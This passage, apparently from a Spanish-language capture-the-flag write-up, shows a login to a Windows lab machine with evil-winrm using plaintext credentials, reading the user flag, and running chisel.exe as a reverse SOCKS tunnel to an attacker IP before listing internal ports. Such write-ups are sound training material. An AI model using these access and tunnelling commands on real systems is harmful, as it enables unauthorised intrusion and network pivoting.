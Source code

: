 Esta si que es válida por ```winrm```

```null
evil-winrm -i 127.0.0.1 -u 'matthew' -p '147258369'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\matthew\Documents> 
```

Puedo ver la primera flag

```null
*Evil-WinRM* PS C:\Users\matthew\Desktop> type user.txt
fea0e391fa463ced873c020db15c0f4a
```

# Escalada

Subo el ```chisel.exe``` para traerme los puertos internos por SOCKS

```null
*Evil-WinRM* PS C:\Temp> .\chisel.exe client 10.10.16.15:1234 R:2080:socks
```

Listo los puertos abiertos por TCP

```null
*Evil-WinRM* PS C:\Users\matthew\Documents> netstat -nat | Select-String TCP

  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:88             0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:389            0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:464            0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:593            0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:636            0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:808            0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:1500           0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:1501           0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:2179           0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:3268           0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:3269           0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:8888           0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:9251           0.0.0.0:0              LISTENING       InHost
  TCP    0.0.0.0:9389           0.0.0.0:0              LISTENING       InHost
```
